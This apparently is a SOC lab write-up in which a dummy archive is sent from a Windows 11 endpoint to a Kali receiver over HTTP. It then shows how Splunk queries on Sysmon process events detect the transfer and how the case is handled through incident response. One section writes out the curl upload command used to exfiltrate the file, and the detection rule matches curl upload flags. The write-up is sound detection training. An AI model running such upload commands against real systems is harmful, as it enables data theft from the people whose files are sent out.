




# UC-009 – HTTP Data Exfiltration

## 1. Overview

This use case simulates the exfiltration of previously collected and archived data from a Windows endpoint to a Kali Linux receiver inside the isolated SOC laboratory.

During UC-008, test data was collected and compressed into the following archive:

```text
C:\SOC-Lab\collection.zip
```

In UC-009, the same archive was transferred from the Windows 11 workstation (`target-pc`) to the Kali Linux machine using the native Windows `curl.exe` utility over unencrypted HTTP.

The objective is to demonstrate how a SOC analyst can identify potential data exfiltration by analyzing endpoint process telemetry in Splunk and correlating the activity with the preceding collection stage.

> **Lab Safety:** All transferred files contain dummy test data. The transfer occurred exclusively inside the isolated SOC laboratory network.

---

## 2. MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Exfiltration | Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol | T1048.003 |

The scenario uses unencrypted HTTP over TCP port `8000` to transfer the previously archived data from `target-pc` to the Kali Linux receiver.

Because the transfer uses an unencrypted protocol outside a command-and-control channel, the simulated behavior is mapped to **MITRE ATT&CK T1048.003 – Exfiltration Over Unencrypted Non-C2 Protocol**.

---

## 3. Environment

| Component | Role | IP Address |
|---|---|---|
| Windows 11 `target-pc` | Source endpoint | `10.0.10.20` |
| Kali Linux | Receiving host | `10.0.10.250` |
| Ubuntu Server | Splunk Server | `10.0.10.10` |

### Data Flow

```text
target-pc
10.0.10.20
     |
     | HTTP
     | TCP/8000
     v
Kali Linux
10.0.10.250
```

---

## 4. Attack Scenario

The scenario assumes that data has already been collected and archived on the Windows endpoint during UC-008.

The archive used for the simulation was:

```text
C:\SOC-Lab\collection.zip
```

The transfer was performed using the native Windows utility:

```text
C:\Windows\System32\curl.exe
```

The destination was an HTTP receiver running on the Kali Linux machine:

```text
10.0.10.250:8000
```

The transfer command used during the simulation was:

```powershell
curl.exe -T "C:\SOC-Lab\collection.zip" http://10.0.10.250:8000/
```

This operation represents the transfer of staged data from the monitored Windows endpoint to another system.

---

## 5. Execution Evidence

### 5.1 HTTP Transfer from target-pc

The archive was transferred from the Windows endpoint using `curl.exe`.



The command explicitly referenced:

- The archive being transferred
- The destination IP address
- The destination port
- The HTTP protocol

---

### 5.2 Archive Received on Kali

The transferred archive was successfully received by the Kali Linux machine as:

```text
received_collection.zip
```

The file was verified on the receiving system using:

```bash
ls -lh received_collection.zip
```



This confirms that the controlled data transfer between the two laboratory systems was completed successfully.

---

## 6. Splunk Detection

The SOC investigation focused on Sysmon Process Creation telemetry generated on `target-pc`.

The following Splunk query was used:

```spl
index=windows host="target-pc" EventCode=1 earliest=-1h Image="*\\curl.exe"
| table _time User Image ParentImage CommandLine
| sort -_time
```

The search identified the execution of `curl.exe`.

Observed telemetry included:

```text
User:
BADR\Administrator

Image:
C:\Windows\System32\curl.exe

Parent Image:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

Source File:
C:\SOC-Lab\collection.zip

Destination:
http://10.0.10.250:8000/
```

### Detection Evidence



The command-line telemetry was particularly valuable because it exposed both the local archive and the remote destination in the same event.

---

## 7. SOC Analysis – 5W1H

### Who?

The activity was executed under:

```text
BADR\Administrator
```

This identifies the user context responsible for launching the transfer utility.

### What?

The previously created archive:

```text
C:\SOC-Lab\collection.zip
```

was transferred from the Windows endpoint to another host using `curl.exe`.

### When?

The relevant Sysmon Process Creation event was observed in Splunk at approximately:

```text
2026-08-17 19:18:34
```

This timestamp can be used to correlate the transfer with preceding activity on the same endpoint.

### Where?

The activity originated from:

```text
Host: target-pc
IP: 10.0.10.20
```

The remote destination specified in the command line was:

```text
10.0.10.250:8000
```

which corresponds to the Kali Linux receiver in the isolated SOC laboratory.

### Why?

From a SOC perspective, transferring an archive containing previously collected data to another host can represent data exfiltration.

However, `curl.exe` is a legitimate Windows utility and its execution alone does not prove malicious activity.

The context makes the event relevant because:

- collected data had previously been archived;
- `curl.exe` was launched from PowerShell;
- the command line referenced the archive created during UC-008;
- a remote HTTP destination was explicitly specified;
- the archive was successfully received by another host.

### How?

The transfer was performed using:

```text
curl.exe
```

over unencrypted HTTP.

The observed execution chain was:

```text
powershell.exe
      |
      v
curl.exe
      |
      | HTTP / TCP 8000
      v
10.0.10.250
```

Sysmon Event ID 1 captured the process execution and command-line arguments, which were then forwarded to Splunk.

---

## 8. Correlation with UC-008

UC-009 is directly related to UC-008.

During UC-008, multiple dummy files were prepared and archived using `tar.exe`.

The resulting archive was:

```text
C:\SOC-Lab\collection.zip
```

UC-009 then transferred this same archive to the Kali Linux receiver.

The combined sequence is:

```text
Dummy Test Data
       |
       v
C:\SOC-Lab\Collection
       |
       | UC-008
       v
tar.exe
       |
       | T1560.001
       v
C:\SOC-Lab\collection.zip
       |
       | UC-009
       v
curl.exe
       |
       | HTTP / TCP 8000
       | T1048.003
       v
Kali Linux
10.0.10.250
       |
       v
received_collection.zip
```

This correlation provides stronger context than investigating `tar.exe` or `curl.exe` independently.

A legitimate archive utility followed by a legitimate transfer utility can become suspicious when both processes operate on the same dataset within the same activity chain.

---

## 9. Detection Logic

The primary detection is based on Sysmon Process Creation telemetry.

A basic Splunk detection query can identify `curl.exe` executions containing file-transfer arguments and HTTP destinations:

```spl
index=windows EventCode=1 Image="*\\curl.exe"
| table _time host User Image ParentImage CommandLine
| sort -_time
```

The analyst should then examine the command line for indicators such as:

- A local file being transferred
- A remote IP address or hostname
- HTTP or another network protocol
- Unusual destination ports
- Archives such as `.zip`
- Execution from scripting environments such as PowerShell

The detection should not automatically classify every `curl.exe` execution as malicious.

Context and correlation are required.

---

## 10. Analyst Interpretation

The execution of `curl.exe` alone is insufficient to classify activity as data exfiltration.

A SOC analyst should evaluate:

- User account
- Source endpoint
- Parent process
- Complete command line
- File being transferred
- Destination address
- Destination port
- Previous activity involving the same file
- Whether the destination is expected or authorized

In this scenario, the following sequence increased the relevance of the event:

```text
Archive created during UC-008
             |
             v
C:\SOC-Lab\collection.zip
             |
             v
curl.exe executed
             |
             v
Archive referenced in CommandLine
             |
             v
Remote destination 10.0.10.250:8000
             |
             v
Archive received by Kali
```

This contextual correlation is more valuable than relying only on the name of the executed process.

---

## 11. Telemetry Limitation

Sysmon Network Connection telemetry was also investigated.

The following type of search was performed for Event ID 3:

```spl
index=windows host="target-pc" EventCode=3 earliest=-2h Image="*\\curl.exe"
| table _time User Image SourceIp SourcePort DestinationIp DestinationPort Protocol
| sort -_time
```

No corresponding Sysmon Event ID 3 event was observed in Splunk.

Therefore, this use case does **not** claim that the HTTP transfer was detected through Sysmon Network Connection telemetry.

The verified SIEM evidence is based on:

```text
Sysmon Event ID 1 – Process Creation
```

Fortunately, the complete `curl.exe` command line contained:

```text
C:\SOC-Lab\collection.zip
```

and:

```text
http://10.0.10.250:8000/
```

which provided visibility into the file and destination despite the absence of Event ID 3.

This demonstrates an important SOC principle:

> The absence of expected telemetry does not necessarily mean that the activity did not occur. Detection conclusions must be based on the telemetry that was actually collected and verified.

---

## 12. Detection Result

The simulated exfiltration activity was successfully identified in Splunk through Sysmon Process Creation telemetry.

| Field | Observed Value |
|---|---|
| Host | `target-pc` |
| Source IP | `10.0.10.20` |
| User | `BADR\Administrator` |
| Process | `C:\Windows\System32\curl.exe` |
| Parent Process | `powershell.exe` |
| Source File | `C:\SOC-Lab\collection.zip` |
| Destination | `10.0.10.250` |
| Destination Port | `8000` |
| Protocol | HTTP |
| Sysmon Event | Event ID `1` |
| MITRE ATT&CK | `T1048.003` |

The command line provided the most valuable evidence because it revealed the transfer utility, local archive, remote destination, port, and protocol.

---

## 13. Key Learning

This use case demonstrates that legitimate system utilities can be used during suspicious activity.

Neither:

```text
tar.exe
```

nor:

```text
curl.exe
```

is inherently malicious.

The analyst must investigate the behavior surrounding these processes.

UC-008 and UC-009 demonstrate how separate endpoint events can be correlated into a more meaningful sequence:

```text
Collection
    ↓
Archive
    ↓
Transfer
    ↓
Potential Exfiltration
```

The use case also highlights the importance of telemetry coverage. Although the process execution was successfully captured, the expected Sysmon network event was not observed.

Understanding these visibility gaps is an important part of SOC monitoring and detection engineering.

---

---

## 14. Splunk Detection Rule

The validated detection logic was converted into a scheduled Splunk alert to automatically identify HTTP file-transfer activity using the native Windows `curl.exe` utility.

### Detection Query

```spl
index=windows host="target-pc" EventCode=1 Image="*\\curl.exe"
(CommandLine="*-T*" OR CommandLine="*--upload-file*")
| table _time ComputerName User ParentImage Image CommandLine
| sort -_time
```

The rule focuses on `curl.exe` process creation containing file-upload arguments.

Because `curl.exe` is a legitimate administrative utility, an alert does not automatically confirm malicious exfiltration. The analyst must investigate the transferred file, destination address, destination port, user, parent process, and surrounding endpoint activity.

### Alert Configuration

| Setting | Value |
|---|---|
| Alert Name | `UC-009 - HTTP Data Exfiltration` |
| Alert Type | Scheduled |
| Schedule | Hourly, at 15 minutes past the hour |
| Trigger Condition | Number of Results > 0 |
| Trigger Action | Log Event |
| Status | Enabled |

### Alert Evidence




---

## 15. Containment

The HTTP transfer observed during UC-009 was intentionally generated inside the controlled SOC laboratory. Therefore, no containment action was required.

If similar activity were confirmed as unauthorized in a production environment, containment actions could include:

- Isolating the affected endpoint.
- Blocking communication with the suspicious destination IP.
- Restricting the affected user account if compromise is suspected.
- Preventing additional outbound transfers from the endpoint.
- Preserving the transferred file and relevant telemetry for investigation.

---

## 16. Eradication

No malicious software or persistence mechanism was introduced during this controlled simulation.

For confirmed malicious exfiltration activity, eradication could include:

- Removing malicious scripts or tools responsible for the transfer.
- Removing staged archives created for exfiltration.
- Removing persistence mechanisms associated with the attacker.
- Resetting compromised credentials when necessary.
- Searching other endpoints for similar transfer activity.

---

## 17. Recovery

No recovery action was required during the laboratory because the monitored endpoint remained operational and uncompromised.

In a real incident, recovery could include:

- Confirming that unauthorized transfer activity has stopped.
- Verifying that the endpoint is clean before restoring normal connectivity.
- Restoring affected user access after credential validation.
- Confirming that Sysmon and Splunk telemetry remain operational.
- Monitoring for repeated archive creation or outbound file-transfer activity.

---

## 18. Post-Incident Activity

### Lessons Learned

- Legitimate utilities such as `curl.exe` can be abused for data exfiltration.
- Process names alone are insufficient to determine malicious intent.
- Command-line arguments provide critical context during investigation.
- Archive creation followed by an outbound transfer provides stronger evidence than either event analyzed independently.
- Correlation between UC-008 and UC-009 demonstrates how separate endpoint events can form a meaningful attack sequence.
- Missing network telemetry should be documented as a visibility limitation rather than ignored.

### Recommendations

- Monitor unusual use of `curl.exe` for file uploads.
- Investigate transfers to unexpected internal or external destinations.
- Correlate archive creation with subsequent outbound transfer activity.
- Monitor privileged accounts performing unusual file transfers.
- Improve Sysmon Event ID 3 collection to strengthen network visibility.
- Tune the Splunk detection rule according to legitimate administrative usage.

---

## 19. Final Incident Classification

| Field | Result |
|---|---|
| Detection | Successful |
| Investigation | Completed |
| MITRE ATT&CK | `T1048.003 - Exfiltration Over Unencrypted Non-C2 Protocol` |
| Detection Rule | Enabled |
| Source Host | `target-pc` |
| Source IP | `10.0.10.20` |
| Process | `curl.exe` |
| Parent Process | `powershell.exe` |
| Transferred File | `C:\SOC-Lab\collection.zip` |
| Destination IP | `10.0.10.250` |
| Destination Port | `8000` |
| Protocol | HTTP |
| Related Use Case | `UC-008 - Archive Collected Data` |
| Containment | Not required – controlled simulation |
| Eradication | Not required – no malicious artifact introduced |
| Recovery | Not required – system unaffected |
| Post-Incident Review | Completed |
| Final Classification | Benign / Authorized Lab Simulation |

The investigation successfully identified the execution of `curl.exe` used to transfer the archive previously created during UC-008 to the Kali Linux receiver.

Correlation between UC-008 and UC-009 established the following sequence:

```text
Collection
    ↓
Archive Creation (UC-008)
    ↓
C:\SOC-Lab\collection.zip
    ↓
HTTP Transfer using curl.exe (UC-009)
    ↓
Kali Linux - 10.0.10.250:8000
```

Although this activity was intentionally generated during the controlled SOC laboratory, the same sequence in a production environment could represent data staging followed by exfiltration.

---

## 20. Conclusion

UC-009 successfully demonstrated a controlled HTTP data exfiltration scenario inside the isolated SOC laboratory.

The archive created during UC-008 was transferred from `target-pc` (`10.0.10.20`) to the Kali Linux receiver (`10.0.10.250`) using the native Windows `curl.exe` utility over HTTP on TCP port `8000`.

Sysmon Event ID 1 captured the process execution, and Splunk provided visibility into the user, parent process, source archive, and remote destination through command-line telemetry.

When correlated with UC-008, the two use cases form a continuous simulated attack sequence:

```text
Data Collection
      ↓
Archive Creation
      ↓
HTTP Transfer
      ↓
Remote Reception
```

The observed exfiltration behavior is mapped to **MITRE ATT&CK T1048.003 – Exfiltration Over Unencrypted Non-C2 Protocol**.

This use case demonstrates the importance of process telemetry, command-line analysis, behavioral correlation, and contextual investigation when detecting potential data exfiltration.
